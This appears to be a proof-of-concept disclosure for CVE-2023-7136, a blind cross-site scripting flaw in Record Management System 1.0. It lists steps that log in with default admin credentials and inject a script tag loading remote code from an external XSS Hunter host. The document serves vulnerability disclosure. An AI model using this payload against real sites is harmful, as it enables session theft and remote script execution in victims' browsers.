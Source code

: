 # CVE-2023-7136_Record_Management_System-Blind_Cross_Site_Scripting-2
+ **Exploit Title:** CVE-2023-7136_Record_Management_System-Blind_Cross_Site_Scripting-2
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/record-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/RECORD_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7136

## References: 
+ **CVE-2023-7136:** https://vuldb.com/?id.249139
+ https://www.cve.org/CVERecord?id=CVE-2023-7136
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7136

## Description:
Record Management System 1.0 allows Blind Cross-Site Scripting via parameter 'docname' in "/recordmanagement/main/doctype.php". Record Management System is vulnerable to a blind cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the login panel: "http://localhost/recordmanagement/"
+ Login with `admin`:`admin`
+ Go to the Document Type: "http://localhost/recordmanagement/main/doctype.php"
+ Then go to the xsshunter app on https://xsshunter.trufflesecurity.com and login.
+ XSS PAYLOADS -> Copy Payload "Basic <script> Tag Payload"
+ Add Doc Type and Name with payload `"><script src="https://js.rip/b23tmbxf49"></script>`
+ Save and then go to XSS PAYLOAD FIRES on the xsshunter.
+ Check Reports.

![4-1](https://github.com/h4md153v63n/CVEs/assets/5091265/8bfdf785-ec1f-4c13-b744-0a113fb5dc7b)
<br>
<br>
![4-2](https://github.com/h4md153v63n/CVEs/assets/5091265/3b18e148-3622-4695-88f6-57291836d32c)
<br>
<br>
![4-3](https://github.com/h4md153v63n/CVEs/assets/5091265/d8c1cf8c-ce5f-46fd-bc21-cfcbfe0a2d93)
<br>
<br>
![4-4](https://github.com/h4md153v63n/CVEs/assets/5091265/b15fbf45-0d73-45f1-8cc2-7a06ab8b7c78)
